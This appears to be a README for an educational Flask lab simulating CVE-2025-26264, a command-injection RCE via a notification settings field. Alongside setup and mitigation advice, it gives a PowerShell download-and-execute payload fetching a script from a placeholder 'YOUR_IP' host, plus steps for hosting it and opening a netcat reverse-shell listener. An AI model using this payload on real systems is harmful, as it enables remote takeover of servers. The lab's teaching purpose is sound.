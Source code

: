 # 🚨 CVE-2025-26264 - Simulated Remote Code Execution via Notification Settings (Flask Demo)

This project demonstrates a simulated version of **CVE-2025-26264**, a real-world authenticated Remote Code Execution (RCE) vulnerability found in **GeoVision GV-ASWeb ≤ v6.1.2.0**.

In this demo, an attacker abuses a poorly handled "notification settings" input field to execute arbitrary PowerShell commands on the server.

---

## 🛠️ Technologies

- Python 3
- Flask
- PowerShell (assumed Windows host)

---

## 📁 Files

- `app.py` — Vulnerable Flask server
- `exploit.py` — Exploit script to trigger the vulnerability
- `README.md` — This documentation

---

## 🚀 Running the Vulnerable Server

1. Install dependencies:
   ```bash
   pip install flask
   ```

2. Start the vulnerable Flask app:
   ```bash
   python app.py
   ```

   Server runs at: `http://localhost:8080`

---

## 💥 Exploit

Use the `exploit.py` script to send a malicious PowerShell command:

```bash
python exploit.py
```

This script sends a POST request to the vulnerable `/notification` endpoint with a `message` field like:

```powershell
Start-Process notepad.exe
```

On a real system, this would launch Notepad on the server.

---

## 🧪 Reverse Shell Example (Optional)

If testing locally and safely, modify the payload in `exploit.py` like so:

```python
payload = 'powershell -NoP -NonI -W Hidden -Command "IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP:8000/shell.ps1')"'
```

Then:

1. Create `shell.ps1` with reverse shell code.
2. Host it:
   ```bash
   python3 -m http.server 8000
   ```
3. Start listener:
   ```bash
   nc -lvnp 4444
   ```

---

## 🛡️ Mitigation

- **Never execute user input** without strict validation or sandboxing.
- **Avoid `os.system()`** or shell-invoking functions with dynamic input.
- **Use allowlists** for commands if needed.
- **Patch vulnerable systems** — in the real CVE, upgrading GV-ASWeb to ≥ v6.2.0 mitigates the issue.

---

## 📚 Credits

- Inspired by [CVE-2025-26264](https://github.com/DRAGOWN/CVE-2025-26264)
- This is a **simulated environment** meant for **educational and ethical testing purposes only**.

---

## ⚠️ Disclaimer

This project is intended **only for ethical hacking education, penetration testing practice, and responsible disclosure research**. Do not use this code against systems you do not own or have explicit permission to test.
